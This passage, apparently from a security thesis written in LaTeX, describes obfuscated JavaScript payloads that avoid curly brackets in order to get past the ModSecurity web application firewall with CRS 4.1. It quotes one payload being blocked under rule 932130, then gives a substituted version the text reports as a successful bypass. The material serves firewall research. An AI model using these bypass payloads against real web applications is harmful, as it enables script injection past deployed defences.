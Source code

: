 

\subsubsection{Avoiding \{\}}
\label{sec:avoidingbypassB}
A payload thats not using any curly brackets: \verb|{}| but still allows for Tagged Template Literals or other usages of \verb|{}| can be created using string substitution strategies. Considering the payload from the previous Section~\ref{sec:avoidingbypassA}, a related payload was created:

\begin{lstlisting}[style=basicStyle, language=Python]
[][`constructor`][`constructor`]('pro'+'mpt`see4InInput${2+2}:`')()
\end{lstlisting}
This payload was blocked by the evaluated firewall configuration:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=Blocked for \$\{\}, label={lst:stringreplaceblocked}]
<payload>[][`constructor`][`constructor`]('pro'+'mpt`see4InInput${2+2}:`')()</payload>

<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${2 2}"</MatchedData>
\end{lstlisting}
On using a string substitution strategy like mentioned under Section~\ref{sec:stringreplace}, the curly brackets were substituted in the payload: 

\begin{lstlisting}[style=basicStyle, language=Python, caption={Avoiding \{\} bypass}, label={lst:stringreplacepass}]
[][`constructor`][`constructor`]('pro'+'mpt`see4InInput$'+[open+[]][0][16]+'2+2'+[open+[]][0][36]+':`')()
\end{lstlisting}
A request equipped with this payload successfully evaded the ModSecurity firewall using \acrshort{crs} 4.1. It validated successfully. 


